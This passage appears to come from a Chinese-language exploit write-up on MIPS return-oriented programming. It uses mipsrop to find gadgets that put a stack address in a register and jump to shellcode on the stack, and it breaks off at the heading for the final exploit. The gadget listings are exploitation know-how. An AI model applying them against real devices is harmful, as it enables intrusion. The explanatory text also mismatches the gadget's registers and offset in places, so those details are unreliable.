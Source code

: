 下一步就是跳到 shellcode ，要跳到shellcode 我们先需要获得栈地址

我们先用 `Python>mipsrop.stackfinder()`

获得 如下 gadget

  ```asm
  .text:00095B74                 addiu   $a1, $sp, 52
  .text:00095B78                 sw      $zero, 24($sp)
  .text:00095B7C                 sw      $v0, 20($sp)
  .text:00095B80                 move    $a3, $s2
  .text:00095B84                 move    $t9, $s5
  .text:00095B88                 jalr    $t9
  ```
该 gadget 可以将栈地址， 即 $sp+24 的值赋值给 $a0 ，那么这个栈就是我们即将填充 shellcode 的地方， $s5 可控，最后这段 gadget 会跳往 $s5 , 那么我们只需要再找一个直接 jr $a0 的gadget 即可
```
  Python>mipsrop.find("move $t9, $a1")
  ----------------------------------------------------------------------------------------------------------------
  |  Address     |  Action                                              |  Control Jump                          |
  ----------------------------------------------------------------------------------------------------------------
  |  0x000FA0A0  |  move $t9,$a1                                        |  jalr  $a1                             |
  |  0x0012568C  |  move $t9,$a1                                        |  jalr  $a1                             |
  |  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
  |  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
  ----------------------------------------------------------------------------------------------------------------
  Found 11 matching gadgets
```
这里使用的是 
```
  .text:0012568C                 move    $t9, $a1
  .text:00125690                 move    $a3, $v0
  .text:00125694                 move    $a1, $a0
  .text:00125698                 jalr    $t9
```
最后的 exploit
